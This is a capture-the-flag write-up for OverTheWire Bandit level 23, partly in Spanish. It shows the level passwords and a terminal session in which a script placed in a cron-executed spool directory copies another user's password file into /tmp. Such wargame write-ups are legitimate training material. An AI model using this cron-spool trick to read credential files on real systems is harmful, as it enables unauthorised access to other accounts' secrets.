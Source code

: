# Level 23
## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso
bandit 23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion
bandit23@bandit:~$ mkdir /tmp/kd bandit23@bandit:~$ cd /tmp/kd bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh bandit23@bandit:/tmp/kd$ cat script.sh cat /etc/bandit_pass/bandit24 > /tmp/kd/password bandit23@bandit:/tmp/kd$ chmod +x script.sh bandit23@bandit:/tmp/kd$ touch password bandit23@bandit:/tmp/kd$ chmod 666 password bandit23@bandit:/tmp/kd$ ls –la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:51 .. -rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo bandit23@bandit:/tmp/kd$ ls -la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. -rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ date Sun Sep 4 01:54:12 AM UTC 2022 bandit23@bandit:/tmp/kd$ ls -la total 96 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. -rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password -rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh 
bandit23@bandit:/tmp/kd$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 
bandit23@bandit:/tmp/kd$
## Notas Adicionales
|comando|descripcion|
|-------|-----------|
|xxx|xxx|
## Referencias